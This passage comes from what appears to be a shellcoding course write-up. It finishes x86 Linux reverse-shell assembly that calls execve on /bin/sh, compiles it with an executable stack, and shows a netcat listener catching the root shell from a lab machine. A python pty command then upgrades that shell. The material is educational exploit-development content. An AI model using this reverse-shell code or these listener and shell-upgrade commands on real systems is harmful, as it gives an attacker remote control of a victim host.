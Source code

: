 mov ecx, esp      <span style="color:#33cccc;">; point to ecx into stack </span>
mov al, 0xb       <span style="color:#33cccc;">; 0xb indicates the execve syscall </span>
int 0x80          <span style="color:#33cccc;">; execute execve syscall </span>
</pre>

<p style="text-align:justify;">As just shown, the <strong>/bin/sh</strong> string is pushed onto the stack in reverse order by first pushing the terminating null value of the string, and then pushing the <strong>//sh (4 bytes are required for alignment and the second / has no effect)</strong>, and finally pushing the<strong> /bin</strong> onto the stack. At this point, we have all that we need on the stack, so <strong>esp</strong> now points to the location of <strong>/bin/sh</strong>.</p>
Now that the code is ready, it is time to test it. The following commands will be used in order to compile and link the code.

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># nasm -f elf32 -o reverse.o reverse.nasm
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># ld -z execstack -o reverse reverse.o
</pre>

<p style="text-align:justify;">Furthermore, the reverse program runs as follows</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># ./reverse 
</pre>

<p style="text-align:justify;">In detail, when the reverse program runs, a connection initiates&nbsp;to the target machine that listens to port <strong>1234&nbsp;</strong></p>


<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
~ nc -nlv 1234
whoami
root
netstat -antp | grep 1234
tcp 0 0 192.168.200.13:50914 192.168.200.4:1234 ESTABLISHED 812/s
</pre>

<p style="text-align:justify;">Furthermore, after the successful connection to the target machine, we will use the following python command in order to have a bash prompt to the open shell above</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
~ nc -nlv 1234
python -c 'import pty; pty.spawn("/bin/bash")'
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># id
id
uid=0(root) gid=0(root) groups=0(root)
<span style="color:#cd0000;"><b>root@slae</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment2</b></span># netstat -antp | grep 1234
netstat -antp | grep 1234
tcp 0 0 192.168.200.13:50914 192.168.200.4:1234 ESTABLISHED 812/s
</pre>
